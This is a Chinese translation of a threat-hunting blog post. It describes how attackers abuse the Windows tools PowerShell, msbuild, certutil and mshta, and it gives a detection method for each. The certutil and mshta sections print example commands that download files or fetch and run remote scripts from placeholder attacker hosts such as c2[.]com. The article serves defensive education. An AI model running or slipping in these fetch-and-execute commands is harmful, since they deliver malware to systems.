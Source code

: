# Windows 威胁追踪:有趣的过程(第 1 部分)

> 原文：<https://infosecwriteups.com/windows-threat-hunting-processes-of-interest-4577fe35d32f?source=collection_archive---------1----------------------->

## 常见 Windows 进程以及黑客如何恶意使用它们的列表

![](img/eb046443573712ac7be15e8bbe01caf5.png)

(来源: [800 × 533](https://www.google.com/url?sa=i&url=https%3A%2F%2Fblogs.vmware.com%2Fsecurity%2F2019%2F05%2Ffour-steps-to-becoming-a-threat-hunter.html&psig=AOvVaw14cMEpGJGedeO4cpHLxflp&ust=1632660632391000&source=images&cd=vfe&ved=0CAsQjRxqFwoTCPj13_6UmvMCFQAAAAAdAAAAABA1) )

微软视窗操作系统是世界上使用最广泛的操作系统，被大型组织和个人广泛使用，占设备的 60%以上。它也广泛用作服务器操作系统。由于它的广泛使用，它经常成为各种攻击和威胁的目标。在这篇文章中，我们将讨论一系列可能被黑客恶意使用的合法 Windows 进程和程序。了解如何使用这些流程对于主动检测恶意活动和防御利用这些流程的攻击非常重要。

## [powershell](https://docs.microsoft.com/en-us/powershell/scripting/overview?view=powershell-7.1)

PowerShell 是一个内置的 Windows 工具，基于。NET 框架。它由一个命令行界面组成，该界面与各种 Windows 服务深度集成，也可用于创建脚本。PowerShell 是一个具有脚本功能的合法 Windows 工具，经常用于系统管理和配置管理任务，它为黑客提供了一种方法来执行伪装成常见命令的恶意有效负载，并允许它们混入正常的网络流量和系统活动中。PowerShell 脚本被广泛用作许多无文件恶意软件的组件。传统攻击通常依赖于可执行文件的传送和执行来利用漏洞，而无文件恶意软件不需要任何附加文件，并且驻留在内存中。它利用内置的可信应用程序(如 PowerShell)来逃避检测。Windows *cmd* 也可以用类似的方式来执行有效载荷。下面是一个混淆的恶意 Powershell 负载的示例。请访问图片说明中的文章，它解构并分析了这是怎么回事！

![](img/fddf0da3e4022f44afd2089bbf0f5ede.png)

来源:[https://threat post . com/powershell-payload-analysis-malware/165188/](https://threatpost.com/powershell-payload-analysis-malware/165188/)

**检测方法:** PowerShell 模块日志记录、脚本块日志记录**、** PowerShell 转录记录并保存 cli 会话的输入和输出，监控网络流量等。

## [**msbuild**](https://docs.microsoft.com/en-us/visualstudio/msbuild/msbuild?view=vs-2019)

*msbuild* 是一个用来构建应用程序的工具，可以在不需要在系统上安装 Visual Studio 的情况下构建产品。它为项目文件提供一个 XML 模式，控制文件的编译方式，然后根据这些规范构建软件并在内存中执行。msbuild 的这种在内存中执行代码的能力，就像 PowerShell 一样，使其成为无文件攻击中的一个有用组件，使其难以检测，并且经常被主要的反恶意软件引擎错过。在野外，msbuild 已被用于部署 Remcos RAT、RedLine Stealer 等远程访问特洛伊木马。

![](img/fb761f260ffcba76a50771eab7741bd8.png)

攻击流程[来源:Anamoli 威胁研究]

**检测方式:**进程监控*msbuild.exe*的执行和参数

## [certutil](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/certutil)

*certutil* 是一个内置的 Windows 命令行工具，用于管理和配置证书服务和组件，以及转储与它们相关的信息。网络防御团队越来越意识到 PowerShell 等工具的滥用，因此越来越多的威胁参与者开始寻求替代方法来进一步避免检测。certutil 就是 PowerShell 的一个替代产品。由于其广泛的命令行功能，它可以用于从 URL 下载文件，甚至用于十六进制和 base64 编码和解码操作。黑客可以滥用此功能下载恶意文件，并对伪装成合法程序的恶意软件进行编码和解码。以下是一些可用于恶意活动的 certutil 内置选项。

```
**certutil -urlcache -f *<url>*** *(File download)* **certutil -encode** (*base64 encoding)*
**certutil -decode** *(base64 decoding)* **certutil -decodehex** (*hex decoding)*
```

**检测方法:**进程日志记录并监控 decode/encode 和 urlcache 参数的使用情况。

## [mshta](https://docs.microsoft.com/en-us/previous-versions/ms536496(v=vs.85))

*mshta* 是一个内置的 Windows 实用程序，用于执行微软 HTML 应用程序(hta)文件。HTA 是独立的应用程序，使用与 Internet Explorer 相同的底层技术执行，但能够在浏览器之外运行。 *mshta* 的这一功能使其成为对手的热门选择，因为它可以用来触发伪装成。 *hta* 文件和隐秘的代码执行，因为扫描器和检测可能不知道它的潜在用途，也不监控它的活动。此外，由于 mshta 能够在浏览器之外运行，它也可以绕过任何可能存在的浏览器安全限制。它可以通过执行远程文件、内联 JavaScript 或 Vbscript 等多种方式使用。有几个利用 *mshta* 执行恶意代码的不同类型威胁的例子。以下是迈克菲实验室和米特 ATT & CK 强调的一些示例使用方法。

```
Remote file execution -***mshta http[:]//maliciouswebsite.com/legit.hta******mshta vbscript:Close(Execute("GetObject(""script:https[:]//webserver/payload[.]sct"")"))***Inline script execution -***mshta vbscript:(CreateObject(“WS”+”C”+”rI”+”Pt.ShEll”)).Run(“powershell”,1,True)(window.close)******mshta javascript:a=GetObject(“script:http://c2[.]com/cmd.sct”).Exec()***
```

**检测方法:**监控可疑流程祖先、流程和流程元数据、内联脚本执行、重命名*mshta.exe*实例、执行*。hta* 文件等。

我们将继续这个列表，并在第二部分 中讨论更多被攻击者用来逃避检测的进程和替代方法！